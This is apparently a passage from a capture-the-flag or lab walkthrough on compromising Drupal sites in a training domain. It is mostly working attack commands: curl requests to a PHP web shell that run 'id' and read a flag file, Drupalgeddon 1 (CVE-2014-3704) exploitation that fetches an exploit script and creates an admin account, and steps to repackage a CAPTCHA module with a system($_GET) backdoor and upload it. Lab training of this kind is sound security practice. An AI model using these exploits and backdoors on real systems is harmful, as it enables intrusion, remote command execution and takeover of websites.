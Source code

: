 ```bash
curl "http://drupal-dev.inlanefreight.local/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id"

# Flag retrieval:
curl "http://drupal-dev.inlanefreight.local/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=cat+/var/www/drupal.inlanefreight.local/flag.txt"
```

#### Step 4: Method 3 - Drupalgeddon 1 (Admin Creation)

**CVE-2014-3704 Exploitation:**
```bash
# Target: drupal-qa.inlanefreight.local (if vulnerable to both)
# Or any Drupal 7.0-7.31 instance

# Download Drupalgeddon 1 exploit
wget https://raw.githubusercontent.com/dreadlocked/Drupalgeddon/master/drupalgeddon.py

# Create admin user
python2.7 drupalgeddon.py -t http://drupal-qa.inlanefreight.local -u hacker -p pwnd

# Login with created user
curl -c cookies2.txt -d "name=hacker&pass=pwnd&form_id=user_login" \
  "http://drupal-qa.inlanefreight.local/user/login"

# Continue with PHP Filter or module upload methods
```

#### Step 5: Method 4 - Backdoored Module Upload

**CAPTCHA Module Backdoor:**
```bash
# Download legitimate CAPTCHA module
wget --no-check-certificate https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz

# Create backdoor files
echo '<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>' > captcha/shell.php

cat > captcha/.htaccess << 'EOF'
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
EOF

# Repackage module
tar czf captcha-backdoored.tar.gz captcha/

# Upload via admin interface:
# /admin/modules → Install new module → Browse → captcha-backdoored.tar.gz

# Test backdoor access
curl "http://target.com/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id"
```
